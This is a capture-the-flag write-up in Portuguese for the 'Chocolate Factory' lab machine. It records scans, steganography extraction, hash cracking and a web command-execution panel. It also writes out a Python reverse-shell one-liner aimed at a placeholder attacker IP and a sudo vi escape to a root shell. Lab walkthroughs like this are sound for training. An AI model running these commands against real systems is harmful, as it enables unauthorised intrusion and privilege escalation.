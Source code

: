 
# Chocolate Factory

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.47.129
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6f18a229-b597-4880-8b79-6b152b2b9196)

![image](https://github.com/lufffe/Writeups/assets/90646635/255cf7cc-0e26-4509-8023-ccbe5dee1f11)

* ### Verificando o que está rodando nas portas encontradas, não da para listar tudo, pois são muitas portas.
```bash
nmap -A -p 22,21,80,100,101,102,103,104,105,107,108,106,109,110,112,111,113,114,115,116,117,118,120,121,119,122,123,124,125 10.10.47.129
```
![image](https://github.com/lufffe/Writeups/assets/90646635/74a0fd17-2133-49ff-98e3-4e40bd749e2a)

* ### Verificando e baixando arquivo que estava no FTP.
```bash
ftp 10.10.47.129
```
![image](https://github.com/lufffe/Writeups/assets/90646635/28543fd1-820c-4a83-89f0-613769e8ded3)

* ### Extraindo informação escondida na imagem.
```bash
steghide extract -sf gum_room.jpg
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0f1b3ae7-a591-4af2-9681-1ed2e2c21510)

* ### Lendo Arquivo baixado.
```bash
cat b64.txt 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c84bb488-60d5-45fa-9cdf-49a3c3b55f91)

* ### Decodificando as informações do arquivo, usando o decode base64.
![image](https://github.com/lufffe/Writeups/assets/90646635/09e14cb1-2af5-434e-84f3-d3067e592f64)

* ### Tentando descobrir a senha do hash encontrado.
```bash
john hash --wordlist=rockyou.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d0fcf084-9ae2-4233-aee3-3d46559e1899)

* ### Olhando HTTP .
![image](https://github.com/lufffe/Writeups/assets/90646635/c6e68fee-1da1-428e-a99f-e352d69d2768)

* ### Usando o Login e Senha encontrados, conseguimos logar e encontramos um campo e botão para executar comandos.
![image](https://github.com/lufffe/Writeups/assets/90646635/4526d6ec-a87e-4050-8ddf-d975adda8053)

* ### Coloca o Netcat para ficar ouvindo em uma porta e usa a Sheel Reversa, e essa que eu usei.
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU_IP",PORTA));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

![image](https://github.com/lufffe/Writeups/assets/90646635/263625d5-ef5d-4245-930c-61263029d2ee)

* ### No Home tem um usuário Charlie, a flag está lá mais não temos permissão de leitura, mas tem um arquivo chamado teleport, que é uma chave RSA.
![image](https://github.com/lufffe/Writeups/assets/90646635/01cbc011-a810-45df-918f-e8b9f7db15df)

* ### Dando permissão a chave RSA, e fazendo acesso por SSH.
![image](https://github.com/lufffe/Writeups/assets/90646635/2f8466bc-aebe-4382-9ebb-38cb5af1b1eb)

* ### Flag Usuário.
```bash
cat user.txt
```

* ### Buscando um ponto para escalar previlégio do Usuário.
```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/dff322d5-5448-496c-adca-c3b764e87c2c)

* ### GTFobins.
![image](https://github.com/lufffe/Writeups/assets/90646635/56ff433d-0cf3-4490-81c8-5949cf2ac7bb)
```bash
sudo /usr/bin/vi -c ':!/bin/sh' /dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e457b5d9-115d-4c87-a0f2-62250e89caf4)

* ### Tentei buscar direto o /root/root.txt, mas o arquivo não existia, dps de ver tem um arquivo root.py, depois de testar algumas coisas lembrei da chave que tinha encontrado lá no inicio.
![image](https://github.com/lufffe/Writeups/assets/90646635/69fad255-ef8d-470e-8901-dfba9a8799b2)

* ### E então descobri a flag Root.
![image](https://github.com/lufffe/Writeups/assets/90646635/48b41b99-539a-42d1-8977-d29870bfedc9)


